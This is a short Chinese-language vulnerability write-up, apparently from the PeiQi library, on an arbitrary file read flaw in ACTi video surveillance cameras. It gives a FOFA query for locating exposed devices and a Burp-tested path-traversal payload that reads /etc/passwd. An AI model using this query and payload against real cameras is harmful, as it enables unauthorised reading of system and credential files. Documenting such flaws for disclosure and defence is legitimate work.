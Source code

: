 ```yaml
---
title: ACTI 视频监控 任意文件读取漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - ACTI
---
```


# ACTI 视频监控 任意文件读取漏洞

## 漏洞描述

ACTI 视频监控 存在任意文件读取漏洞

## 漏洞影响

> [!NOTE]
>
> ACTI摄像头

## FOFA

> [!NOTE]
>
> app="ACTi-视频监控"

## 漏洞复现

登录页面如下

![](/img/20210924015205268872.png)

使用Burp抓包

```
/images/../../../../../../../../etc/passwd
```

![](/img/20210924015205559915.png)

## Goby & POC

![](/img/20210924015206874024.png)